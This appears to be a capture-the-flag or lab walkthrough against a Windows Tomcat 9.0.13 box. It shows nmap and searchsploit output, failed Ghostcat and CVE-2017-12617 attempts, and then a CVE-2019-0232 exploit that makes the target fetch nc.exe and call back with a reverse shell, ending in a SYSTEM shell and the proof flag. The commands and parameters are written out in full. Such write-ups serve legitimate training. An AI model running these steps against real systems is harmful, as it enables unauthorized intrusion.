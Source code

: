 # 0. Sources

|||
|---|---|
|[YouTube](https://www.youtube.com/watch?v=Qnpk4xxLzrU)|[Download](https://drive.google.com/file/d/1cWjFVj3PcDRI_WKQPNIuhi5oGeoCo5zq/view)|

<details>
  <summary><h1>1. Nmap Scan</h1></summary>

```console
┌──(root㉿kali)-[~]
└─# nmap -p- -A 10.0.88.35
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-04 19:29 +08
Nmap scan report for 10.0.88.35
Host is up (0.0012s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info:
|   Target_Name: WIN-KBP5VDTN99V
|   NetBIOS_Domain_Name: WIN-KBP5VDTN99V
|   NetBIOS_Computer_Name: WIN-KBP5VDTN99V
|   DNS_Domain_Name: WIN-KBP5VDTN99V
|   DNS_Computer_Name: WIN-KBP5VDTN99V
|   Product_Version: 6.2.9200
|_  System_Time: 2022-12-05T03:31:15+00:00
| ssl-cert: Subject: commonName=WIN-KBP5VDTN99V
| Not valid before: 2022-12-04T03:26:50
|_Not valid after:  2023-06-05T03:26:50
|_ssl-date: 2022-12-05T03:31:21+00:00; +15h59m59s from scanner time.
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8009/tcp  open  ajp13              Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp  open  http               Apache Tomcat 9.0.13
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.13
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
49170/tcp open  msrpc              Microsoft Windows RPC
⋮
```

</details>

# 2. Checking for exploits

## 2.1. Trying Apache Jserv Protocol

Searching for exploits related to ajp reveals a LFI exploit, but it isn't helpful in getting access to the box

```console
┌──(root㉿kali)-[~]
└─# searchsploit ajp
------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                     |  Path
------------------------------------------------------------------- ---------------------------------
AjPortal2Php - 'PagePrefix' Remote File Inclusion                  | php/webapps/3752.txt
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                  | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)    | multiple/webapps/49039.rb
------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(root㉿kali)-[~]
└─# searchsploit -m 48143
  Exploit: Apache Tomcat - AJP 'Ghostcat File Read/Inclusion
      URL: https://www.exploit-db.com/exploits/48143
     Path: /usr/share/exploitdb/exploits/multiple/webapps/48143.py
    Codes: CVE-2020-1938
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /root/48143.py

┌──(root㉿kali)-[~]
└─# python2 48143.py 10.0.88.35
Getting resource at ajp13://10.0.88.35:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
⋮
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

## 2.1. Trying Tomcat

### 2.2. Searching exploit-db

There are quite a list of results on exploit-db for tomcat, but they don't appear relevant to this box

```console
┌──(root㉿kali)-[~]
└─# searchsploit tomcat execution
----------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                         |  Path
----------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat - Account Scanner / 'PUT' Request Command Execution                                                      | multiple/remote/18619.txt
Apache Tomcat - CGIServlet enableCmdLineArguments Remote Code Execution (Metasploit)                                   | windows/remote/47073.rb
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)           | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)           | jsp/webapps/42966.py
Apache Tomcat Manager - Application Deployer (Authenticated) Code Execution (Metasploit)                               | multiple/remote/16317.rb
Apache Tomcat Manager - Application Upload (Authenticated) Code Execution (Metasploit)                                 | multiple/remote/31433.rb
Apache Tomcat/JBoss EJBInvokerServlet / JMXInvokerServlet (RMI over HTTP) Marshalled Object - Remote Code Execution    | php/remote/28713.php
AWStats 6.x - Apache Tomcat Configuration File Arbitrary Command Execution                                             | cgi/webapps/35035.txt
Tomcat - Remote Code Execution via JSP Upload Bypass (Metasploit)                                                      | java/remote/43008.rb
----------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(root㉿kali)-[~]
└─# searchsploit -m 42966
  Exploit: Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)
      URL: https://www.exploit-db.com/exploits/42966
     Path: /usr/share/exploitdb/exploits/jsp/webapps/42966.py
    Codes: CVE-2017-12617
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /root/42966.py

┌──(root㉿kali)-[~]
└─# python3 42966.py -u http://10.0.88.35:8080
⋮
Poc Filename  Poc.jsp
Not Vulnerable to CVE-2017-12617
```

### 2.3. Google

Searching for tomcat exploits on exploit-db doesn't appear to return useful results

However, googling for `tomcat remote code execution github` returns an [interesting post](https://github.com/jaiguptanick/CVE-2019-0232)

☝️ exploit-db has an expansive collection, but it is not exhaustive

**Important learning point**: if there's a service on the box and there doesn't seem to be any working exploits, **try googling** for `<topic> + remote code execution + github`, it can sometimes turn up useful information

Analyzing the exploit script provided in the GitHub repository, it seems to:
1. Connect to the vulnerable tomcat target
2. Get the target to download `nc.exe` from the designated web server
3. Run `nc.exe` and connect to the designated nc listener

Prepare the `nc.exe` download

```console
┌──(root㉿kali)-[~]
└─# cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/
```

Download the exploit script:

```console
┌──(root㉿kali)-[~]
└─# curl -O https://raw.githubusercontent.com/jaiguptanick/CVE-2019-0232/main/CVE-2019-0232.py
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   708  100   708    0     0   1471      0 --:--:-- --:--:-- --:--:--  1471
```

Edit the paramters:

```console
⋮
host='10.0.88.35'#add host to connect
port='8080'#add port of host {default:8080}
server_ip='kali.vx'#server that has nc.exe file to get reverse shell
server_port='80'
nc_ip='kali.vx'
nc_port='kali.vx'
⋮
```

Open another console window on Kali to listen for connections:

```console
┌──(root㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
```

Run the exploit:

```console
┌──(root㉿kali)-[~]
└─# python3 CVE-2019-0232.py
```

Verify that the reverse shell has hooked on from the listener console

```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.35] 49189
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi>whoami

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18
⋮
```

Excellent, we went from having no access straight to having SYSTEM-level shell on the target

# 3. Getting the proof

Now all that's left is to search and retrieve the flag:

```cmd
C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi>dir /s C:\*proof.txt*
dir /s C:\*proof.txt*
 Volume in drive C has no label.
 Volume Serial Number is B00F-4DBD

 Directory of C:\Users\Administrator\Desktop

11/16/2021  10:56 PM                32 proof.txt
               1 File(s)             32 bytes

     Total Files Listed:
               1 File(s)             32 bytes
               0 Dir(s)  21,838,573,568 bytes free

C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi>type C:\Users\Administrator\Desktop\proof.txt
type C:\Users\Administrator\Desktop\proof.txt
WW91IGNhbiBwYXNzIHRoZSBleGFtCg==
```
